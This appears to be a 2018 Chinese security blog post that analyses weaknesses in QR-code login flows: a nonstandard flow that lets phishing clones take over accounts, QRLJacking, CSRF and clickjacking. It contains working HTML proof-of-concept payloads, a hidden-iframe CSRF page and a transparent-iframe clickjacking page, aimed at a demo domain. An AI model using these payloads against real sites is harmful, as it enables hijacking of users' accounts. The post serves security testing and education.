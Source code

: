 ```yaml
---
layout: post
author: Vulkey_Chen
title: "二维码登陆的常见缺陷剖析"
date: 2018-04-08
categories: 二维码登陆
permalink: /archives/2018-04-08/1
description: "二维码登陆的常见缺陷剖析"
---
```


#  二维码登陆的常见缺陷剖析

现在很多的电商平台和互联网型企业都有自己的手机APP，为了方便用户的体验，于是就有了"扫码登陆"这样的功能。看似扫码登陆，实际上还是基于HTTP请求来完成的。

<!-- more -->

## 了解扫码登陆步骤

标准的二维码登陆流程如下：
1. 打开web界面进入登陆然后加载二维码
2. 网站开始轮询，来检测二维码状态
3. 打开手机APP进入"扫一扫"，扫描二维码
4. 网站检测到二维码被扫描，进入被扫描后的界面，继续轮询来获取凭证
5. 手机APP进入确认登陆界面
6. (当点击确认登陆)网站轮询结束获取到了凭证，进入个人中心；(当取消登陆)网站轮询设定时间自动刷新页面。

## 常见缺陷剖析

### 0x00 非标准扫码登陆流程缺陷

#### 非标准流程描述

扫描登陆的流程如果不按照标准来做也会存在很多问题，国内一些企业在处理这些的时候省略了如上所述的第五步骤和第六步骤，而是直接扫描后立即登陆。

#### 分析非标准流程可能存在的问题

- 可进行1:1比例诱导扫描

二维码是一张图片而图片是可以移植的，所以我们可以1:1克隆一个登陆页面来诱导用户进行扫描，这样就可以直接获取用户的权限了。

因为保密协议的问题，这里不对漏洞详情进行描述，简单的使用文字进行叙述：

在测试这种问题的时候，只需要按照步骤去测试下即可发现是否有相对于的问题，我一般会使用浏览器ctrl+s快捷键先克隆下来，因为这样会自带css和js等文件，剩下的只需要你处理一下就行了，也可以参考我之前的文章：[微信Netting-QRLJacking分析利用-扫我二维码获取你的账号权限](https://bbs.ichunqiu.com/thread-25923-1-1.html)，方法类似就行，但是这里的微信二维码登录是基于OAuth2.0协议的，所以当用户点击之后，我只要获取到授权凭证链接就行了，而一般的二维码登陆是不基于OAuth2.0协议的，就需要处理好你的交互问题。

### 0x01 QRLJacking-二维码登陆劫持

2017年OWASP推出了这种攻击方式：https://www.owasp.org/index.php/Qrljacking

因为OWASP上有详细的介绍，所以在这里我就不以实际案例来说明了。

补充的一点是在0x00中我已经说明了之前一篇文章[微信Netting-QRLJacking分析利用-扫我二维码获取你的账号权限](https://bbs.ichunqiu.com/thread-25923-1-1.html)，在这里我称之为Netting-QRLJacking是因为我们可以使用钓鱼网站方式的方法进行大面积撒网~而其实这里是利用了OAuth2.0的一个流程特征，我们想进行二维码登录劫持的时候也可以利用"扫码登陆"的流程特征。

之前已经把"扫码登陆"的流程说的很清楚了，我们知道其中一步轮询是用户点击确认登陆之后就通过轮询这个接口可以直接获得凭证，利用这个特点就行了。

**小提示：**整个流程划分为一个一个的接口来测试，你会更清楚的。

### 0x02 CSRF跨站请求访问

之在0x01说了，把整个流程划分为一个个的接口来测试，你就会更清楚，其实潜台词就是**"你会发现更多漏洞"**~

以一个实际例子来讲解：

在测试一个站点的时候遇到的问题，其扫码登陆的流程全部为GET类型请求：

1. 打开web界面进入登陆然后加载二维码**（http://www.gh0stdemo.cn/getqrcode 返回一段uuid 二维码的链接为 http://www.gh0stdemo.cn/qrcode?code=qrcode）**
2. 网站开始轮询，来检测二维码状态**（http://www.gh0stdemo.cn/getqrlstate?code=qrcode）**
3. 打开手机APP进入"扫一扫"，扫描二维码**（http://www.gh0stdemo.cn/qrcode?code=qrcode）**
4. 网站检测到二维码被扫描，进入被扫描后的界面，继续轮询来获取凭证**（http://www.gh0stdemo.cn/getqrlstate?code=qrcode）**
5. 手机APP进入确认登陆界面**（这步骤必须需要经过第四步骤之后才可以 http://www.gh0stdemo.cn/putqrlstate?code=qrcode）**
6. (当点击确认登陆)网站轮询结束获取到了凭证，进入个人中心；(当取消登陆)网站轮询设定时间自动刷新页面。


在这里我们可以构建这样的PoC：

```html
<!DOCTYPE html>
<html>
<head>
	<title>PoC</title>
</head>
<body>
<script>
function loadsrc(){
	document.getElementById("test1").src="http://www.gh0stdemo.cn/qrcode?code=qrcode";
}
setTimeout('loadsrc()',1000);
</script>
<iframe id="test1" src="http://www.gh0stdemo.cn/putqrlstate?code=qrcode">
</iframe>
</body>
</html>
```

很简单的一个PoC就构成了，这里也确实存在CSRF的问题，可能在这里有人会想到攻击面得问题，仅仅只限于APP端？当然不，其实原理是一样得，都是把自己的凭证(Cookie)发出去，所以在电脑的web端只要登陆了一样可以完成攻击步骤~

当然在这里也有POST形式的CSRF，因为内容重复度过高就不一一举例了。

### 0x03 ClickJacking-点击劫持

点击劫持，视觉欺骗

根据扫码登陆的流程中我们可以看到有一个流程强制的要求了用户去点击确认登陆的按钮，但是这个界面往往没有做点击劫持的防范：

在我之前的一篇文章中详细讲了PoC的制作方法：http://gh0st.cn/archives/2017-12-20/1

之前跟一朋友在测试的时候发现了一些问题，有些网站用iframe标签引用进来，不会百分百的自适应，在这里我使用了div为父元素，如何再在div里面写入iframe这个子元素来自适应就行了。

```html
<html>
<head>
<meta name="referrer" content="never">
<style type="text/css"> 
.testframe {
	height: 100%;
} 
iframe {
	height: 100%;
	width: 100%;
	border: 0;
	margin: 0;
	padding: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
    filter: alpha(Opacity=0); /*提供给IE浏览器8之前的*/
    -moz-opacity: 0; /*提供给火狐浏览器的*/
    -webkit-opacity: 0; /*提供给webkit内核的*/
    -khtml-opacity: 0; /*提供给KHTML内核的*/
    -ms-filter: "progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"; /*提供给IE8之后的*/
    opacity: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
}
.btn {
    position: fixed;
    width: 97%;
    height: 42px;
    margin: 0 auto;
    left: 0;
    right:0;
    display:block;
    top: 815px;
} 
</style>
</head>
<body>
<div class="testframe">
	<input type="button" class="btn" value="Click">
	<iframe src="http://www.gh0stdemo.cn/qrcode?code=qrcode"></iframe>
</div>
</body>
</html>
```

示例结果：

![http://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-04-08/0x00.png](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-04-08/0x00.png)



## 结尾

本文没详细的去写，仅仅记录笔者的实践过程和心得。